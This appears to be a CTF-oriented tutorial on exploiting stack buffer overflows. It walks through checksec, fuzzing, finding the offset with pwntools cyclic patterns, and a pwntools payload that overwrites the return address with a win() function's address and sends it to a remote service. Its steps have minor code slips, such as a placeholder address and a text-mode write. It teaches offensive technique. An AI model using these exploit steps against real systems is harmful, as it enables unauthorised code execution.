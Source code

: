 # Buffer Overflow Exploitation
This section will go into detail about how to exploit buffer overflows, which is often seen where the program uses `gets`, `puts` or `scanf` functions. These functions are often used to read user input, and are often vulnerable to buffer overflows as they do not check the length of the input.

## Setup
**Debugger/Disassembler:**
* [GDB](https://www.gnu.org/software/gdb/)
* [Ghidra](https://ghidra-sre.org/)

**Programming Languages:**
* [Python](https://www.python.org/)

**Python Libraries:**
* [pwntools](https://docs.pwntools.com/en/stable/)

**Extensions:**
* [Pwndbg - GDB Extension](https://github.com/pwndbg/pwndbg#readme). 

## 01 - Checksec
See this page for more information on checksec: [Checksec](../../Checksec/Readme.md).

Start by running checksec on the vulnerable binary:
```bash
$ checksec --file=vuln
```

## 02 - Fuzzing
Fuzzing is a technique used to find the offset of the buffer overflow. It involves sending a large amount of data to the program, and seeing if it crashes. If it does, then you know that you have found the offset of the buffer overflow.

```bash
$ python -c "print ('A' * 100)" | ./<executable> # Local
$ python -c "print ('A' * 100)" | nc <ip> <port> # Remote

# Alternative
$ nc <ip> <port> <<<  $(python -c 'print("A" * 100)') # Remote
```

## 03 - Finding the Offset
Once you have found the offset of the buffer overflow, you can use this to find the offset of the return address. This is done by sending a large amount of data to the program, and then sending the address of the return address. If the program crashes, then you know that you have found the offset of the return address.

Create a file called `pattern.py`:
```python
from pwn import *

# Create the pattern
pattern = cyclic(100)
print(pattern)

# Save the pattern to a file
with open('pattern.txt', 'w') as f:
    f.write(pattern)
```

Run the script:
```bash
$ gdb ./<executable>
(gdb) r < pattern.txt
```

## 03 - Creating the Payload
Look at the EIP register, lets just say it has the value `0x6161616c` and cyclic value of `laaa`.

Get the function call address for a function. An example could be win() printing out a flag:
```bash
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x080491f6  win
0x08049281  vuln
0x080492c4  main
...
```

Now we can create a payload that will overwrite the return address with the address of the function call:
```python
from pwn import *

# Create the pattern
padding = cyclic(cyclic_find('laaa'))

# Filling the EIP with a function call address
eip = p32(0xdeadbeef)

# Creating the payload
payload = padding + eip
print(payload)
```

## 04 - Sending the Payload
Time to send the payload to the program:
```python
# Sending the payload to the program
r = remote('host', <port>)
r.recvuntil(b"Welcome. Can you guess my number?\n") # Wait for the prompt
r.sendline(payload)
r.interactive()
```
